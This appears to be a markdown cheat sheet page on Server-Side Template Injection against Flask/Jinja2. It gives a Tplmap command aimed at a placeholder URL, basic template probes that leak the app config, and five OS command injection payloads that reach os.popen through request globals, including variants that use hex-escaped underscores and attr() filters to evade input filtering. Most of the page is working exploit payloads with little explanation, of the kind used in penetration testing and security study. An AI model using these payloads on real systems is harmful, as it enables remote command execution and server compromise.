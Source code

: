 ```yaml
---
title: Server-Side Template Injection
desc: 
tags: [Flask, Injection, Jinja, Python, Server, Template, Web]
alts: []
render_with_liquid: true
---
```


{% raw %}

## Automation

1. **Use Tplmap**

    **[Tplmap](https://github.com/epinna/tplmap){:target="_blank"}** is a program for Server-Side Template Injection and Code Injection.

    ```sh
    ./tplmap.py -u http://vulnerable.com/?name=test
    ```

<br />

## Manual Injection

1. **Flask Jinja2**

    Flask is a micro web framework written in Python.

    1. **Basic**

        ```
        {{ 4*2 }}
        {{ config.items() }}
        ```

    2. **OS Command Injection**

        ```
        {{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

        {{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

        {{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

        {{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}

        {{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}
        ```

{% endraw %}